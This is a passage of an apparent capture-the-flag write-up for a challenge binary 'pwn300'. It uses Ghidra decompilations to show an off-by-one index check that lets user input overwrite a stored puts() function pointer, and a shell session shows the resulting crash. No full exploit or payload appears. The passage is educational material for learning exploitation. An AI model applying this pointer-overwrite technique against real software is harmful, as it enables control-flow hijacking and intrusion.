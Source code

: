 When decompiling this program inside of Ghidra, you can see that the `main()` function first sets a function pointer to be equal to a pointer to `puts()`. This function pointer is placed right at the very end of the `names` array, which is supposed to contain all of the user's input values.
```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  names._10000_8_ = puts;
  do_main();
  return 0;
}
```

This function pointer is later used by the `print_name()` function, whose decompilation is shown below.
```c
void print_name(void)
{
  long in_FS_OFFSET;
  uint local_14;
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_14 = 0;
  printf("index: ");
  __isoc99_scanf(&DAT_00400a95,&local_14);
  if (local_14 < 0x65) {
    (*names._10000_8_)(names + (ulong)local_14 * 100);
  }
  else {
    puts("index out of bounds no hacking");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

It is possible to overwrite this function pointer by writing data into the 100th index.
```sh
$ ./pwn300
[1] add name
[2] print name
[3] exit
1
index: 100
pls give the name:
A
[1] add name
[2] print name
[3] exit
2
index: 100
zsh: segmentation fault  ./pwn300
```
